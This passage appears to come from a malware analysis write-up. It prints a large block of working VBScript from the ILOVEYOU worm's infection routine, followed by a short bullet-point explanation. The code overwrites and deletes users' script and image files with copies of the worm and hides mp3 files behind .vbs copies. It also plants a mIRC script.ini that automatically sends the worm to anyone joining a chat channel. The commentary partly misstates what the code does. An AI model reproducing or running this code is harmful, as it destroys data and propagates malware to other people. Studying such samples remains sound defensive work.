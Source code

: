 ```vbs
elseif(ext="js") or (ext="jse") or (ext="css") or (ext="wsh") or (ext="sct") or (ext="hta") then
set ap=fso.OpenTextFile(f1.path,2,true)
ap.write vbscopy
ap.close
bname=fso.GetBaseName(f1.path)
set cop=fso.GetFile(f1.path)
cop.copy(folderspec&"\"&bname&".vbs")
fso.DeleteFile(f1.path)
elseif(ext="jpg") or (ext="jpeg") then
set ap=fso.OpenTextFile(f1.path,2,true)
ap.write vbscopy
ap.close
set cop=fso.GetFile(f1.path)
cop.copy(f1.path&".vbs")
fso.DeleteFile(f1.path)
elseif(ext="mp3") or (ext="mp2") then
set mp3=fso.CreateTextFile(f1.path&".vbs")
mp3.write vbscopy
mp3.close
set att=fso.GetFile(f1.path)
att.attributes=att.attributes+2
end if
if (eq<>folderspec) then
if (s="mirc32.exe") or (s="mlink32.exe") or (s="mirc.ini") or (s="script.ini") or (s="mirc.hlp") then
set scriptini=fso.CreateTextFile(folderspec&"\script.ini")
scriptini.WriteLine "[script]"
scriptini.WriteLine ";mIRC Script"
scriptini.WriteLine ";  Please dont edit this script... mIRC will corrupt, if mIRC will"
scriptini.WriteLine "     corrupt... WINDOWS will affect and will not run correctly. thanks"
scriptini.WriteLine ";"
scriptini.WriteLine ";Khaled Mardam-Bey"
scriptini.WriteLine ";http://www.mirc.com"
scriptini.WriteLine ";"
scriptini.WriteLine "n0=on 1:JOIN:#:{"
scriptini.WriteLine "n1=  /if ( $nick == $me ) { halt }"
scriptini.WriteLine "n2=  /.dcc send $nick "&dirsystem&"\LOVE-LETTER-FOR-YOU.HTM"
scriptini.WriteLine "n3=}"
scriptini.close
eq=folderspec
end if
end if
next  
end sub
```

This subroutine gets a name of folder and then it retrieves the list of files in it. It stores the lowercase extension and name of file in ext and s variable respectively. Then it checks for there extensions and performs specifics tasks.

- vbs, vbe -> writes the vbscopy script which contains itself
- js, jse, css, wsh, sct, hta -> It copies the script and changes the extension to vbs
- jpg, jpeg -> It copies the script and changes the extension to vbs
- mp3, mp2 -> it just changes the extension to vbs
